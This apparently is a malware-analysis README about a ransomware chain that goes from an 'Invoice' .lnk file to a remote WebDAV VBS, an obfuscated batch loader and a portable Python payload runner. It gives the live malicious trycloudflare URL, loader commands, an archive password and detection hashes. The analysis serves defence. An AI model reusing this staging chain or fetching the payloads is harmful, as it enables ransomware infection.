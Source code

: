 Hey Together!

Today we got an interesting zip file containing only a `.lnk` file named "Invoice" that triggered the WScript host with the path `\ni-olympic-forests-invoice.trycloudflare.com@SSL\DavWWWRoot\tat.vbs` to execute.
Sadly, we don't have the original file anymore. We use disposable VMs as workstations that get deleted in such cases.

I have sent as many files as I could get to ensure you can take a deep dive into it. Sadly, I did not get deeper into the Python `load.py` and the binaries that do all the final magic.

_TLDR_  
This runs a VBS script triggering a batch script, which then plants a portable Python 3.12 and some binary files with `load.py` to seemingly encrypt files and request BTC to decrypt them.  
Big questions were raised by this:

- Why is it allowed to run a CMD -C from a URL?
- How can WScript be triggered from a WebDAV?
- What does `load.py` do with the other binaries?

_Longer explanation:_  
When opening the path in the editor, we can see the contents!

The VBS spawns a new CMD with the -C option to a HTTPS path (why the heck should this be allowed?) to stage its loader (`voi.bat`).

This is heavily obfuscated, but with some smart ideas from ChatGPT to replace all variables (`%.*%`) with `[VAR]`, I found out it's just noise added to it.

Example:

```
@[VAR]e[VAR]c[VAR]h[VAR]o[VAR] [VAR]o[VAR]f[VAR]f[VAR]
s[VAR]e[VAR]t[VAR]l[VAR]o[VAR]c[VAR]a[VAR]l[VAR]
```

Converts to

```
@echo off
setlocal
```

Because the vars do not resolve to anything, it's nothing more than noise added to the script!

With that, I searched for all the variables that are needed in the script to download and save stuff, telling ChatGPT, "Please remove all except these!"

```
antivirusDetected
runCommand1
runCommand2
runCommand3
runCommand4
zipUrl
retires
zipUrl
destination
ERRORLEVEL
txtUrl
txtDestination
```

Out came my final deobfuscated `voi.bat`, going deeper into the rabbit hole.

In our case, the "antivirusDetected" wasn't triggered, and because of this, I got my hands on the `bab.zip` file, which contained a portable Python + `load.py` and some bin files.

Because of the deobfuscated `voi.bat`, I knew the following commands would get triggered:

```
set "runCommand1=load.py cc.bin"
set "runCommand2=load.py vv.bin"
set "runCommand3=load.py pay.bin"
set "runCommand4=load.py payload.bin"
...
"\python.exe" %runCommand1%
...
"\python.exe" %runCommand2%
...
"\python.exe" %runCommand3%
...
"\python.exe" %runCommand4%
```

I tried some more and fed these back to ChatGPT, but sadly, didn't get much further...

All it found was that the `cc.bin` contained the function "delete" and `pay.bin` contains "btc" somewhere.

# Now it's your turn :D

I would love to see you get deeper into it!

All payload files are attached in the encrypted `.7z` (password: "plzsubscribe"), including my deobfuscated file from ChatGPT.  
I added a screenshot of our XDR and why it got remediated and killed (Thread Indicators) as well.  
Without its help, we probably would have run into a ransomware attack!

# Sentienl One Output

Threat Info:
Name: wscript.exe (CLI 1242)
URL: _redacted_
Path: \Device\HarddiskVolume3\Windows\System32\wscript.exe (CLI 1242)
Command Line Arguments: "\\ni-olympic-forests-invoice.trycloudflare.com@SSL\DavWWWRoot\tat.vbs"
Process User: _redacted_
Signature Verification: NotSigned
Originating Process: explorer.exe
SHA1: 12427b31dfda0fd6d07cd2792eab5863c8da0a0d
SHA256: b6359dcb4e55310ff3471ee180141cad9333b51e03c2da8c57afb55969be0047
MD5: 3c979f9b452df16a1e2d7b1d56b39902
Initiated By: Agent Policy
Engine: Anti Exploitation / Fileless
Detection type: Dynamic
Classification: Ransomware
Storyline: 8D95C5F34630CCAB
Threat Id: 2086152210643011641
Endpoint Info:
Computer Name: _redacted_
Console Connectivity: Offline
Full Disk Scan: Completed at Nov 15, 2024 13:13:32
Pending reboot: No
Network Status: Disconnected
Scope: \*_redacted_
OS Version: Windows 10 Enterprise LTSC 19044
Agent Version: 24.1.4.257
Policy: protect
UUID: _redacted_
Domain: _redacted_
IP v4 Address: _redacted_
IP v6 Address: _redacted_
Console Visible IP Address: _redacted_
Subscription Time: Nov 15, 2024 13:13:32
